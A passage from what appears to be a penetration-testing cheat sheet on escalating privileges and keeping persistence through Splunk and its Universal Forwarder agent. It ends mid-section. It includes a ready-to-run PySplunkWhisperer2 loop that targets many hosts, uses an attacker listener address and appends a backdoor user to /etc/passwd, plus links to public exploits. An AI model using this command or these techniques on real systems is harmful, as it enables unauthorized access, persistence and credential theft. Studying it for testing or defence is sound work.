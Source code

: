 If enumerating a machine internally or externally you find Splunk running (port 8090), if you luckily know any valid credentials you can abuse the Splunk service to execute a shell as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are already root and the Splunk service is not listening only on localhost, you can steal the password file from the Splunk service and crack the passwords, or add new credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.

## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post . This is just a sumary:

Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

Key Points:

The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.

Common password acquisition methods include locating them in network directories, file shares, or internal documentation.

Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

Exploit Execution:

1. Attacker obtains the UF agent password.

2. Utilizes the Splunk API to send commands or scripts to the agents.

3. Possible actions include file extraction, user account manipulation, and system compromise.

Impact:

Full network compromise with SYSTEM/root level permissions on each host.

Potential for disabling logging to evade detection.

Installation of backdoors or ransomware.

Example Command for Exploitation:

```
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

Usable public exploits:

https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

https://www.exploit-db.com/exploits/46238

https://www.exploit-db.com/exploits/46487

## Abusing Splunk Queries

For further details check the post